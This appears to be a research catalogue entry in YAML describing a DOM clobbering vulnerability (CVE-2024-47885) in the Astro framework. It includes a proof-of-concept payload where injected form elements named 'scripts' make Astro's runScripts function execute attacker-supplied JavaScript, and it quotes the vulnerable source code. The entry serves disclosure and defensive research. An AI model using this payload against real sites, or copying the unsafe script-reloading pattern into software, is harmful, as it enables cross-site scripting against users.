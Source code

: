 ```yaml
---
description: Astro is a website build tool for the modern web — powerful developer experience meets lightweight output.
github: withastro/astro
gadgets:
  ≥3.0.0 & ≤4.16.0:
    cve: CVE-2024-47885
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser    
      - doc-tags
      - name-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [Astro](https://astro.build/) library was using the `document.scripts` property to load additional scripts. The content of the nodes was then used as the new script content.
        code: |
          <!-- user input -->
          <form name="scripts">alert(document.domain)</form>
          <form name="scripts"></form>

          <script nonce="secret">
          function runScripts() {
            for (const script of Array.from(document.scripts)) {
              if (script.dataset.astroExec === '') continue;
              const type = script.getAttribute('type');
              if (type && type !== 'module' && type !== 'text/javascript') continue;
              const newScript = document.createElement('script');
              newScript.innerHTML = script.innerHTML;
              for (const attr of script.attributes) {
                newScript.setAttribute(attr.name, attr.value);
              }
              newScript.dataset.astroExec = '';
              script.replaceWith(newScript);
            }
          }

          runScripts();
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/withastro/astro/blob/7814a6cad15f06931f963580176d9b38aa7819f2/packages/astro/src/transitions/router.ts#L135-L156">https://github.com/withastro/astro/blob/7814a6cad15f06931f963580176d9b38aa7819f2/packages/astro/src/transitions/router.ts#L135-L156</a>

      ```javascript
      function runScripts() {
        for (const script of Array.from(document.scripts)) {
          if (script.dataset.astroExec === '') continue;
          const type = script.getAttribute('type');
          if (type && type !== 'module' && type !== 'text/javascript') continue;
          const newScript = document.createElement('script');
          newScript.innerHTML = script.innerHTML;
          for (const attr of script.attributes) {
            newScript.setAttribute(attr.name, attr.value);
          }
          newScript.dataset.astroExec = '';
          script.replaceWith(newScript);
        }
      }

      runScripts();
      ```
    links:
      - https://github.com/withastro/astro/security/advisories/GHSA-m85w-3h95-hcf9
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/astro.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

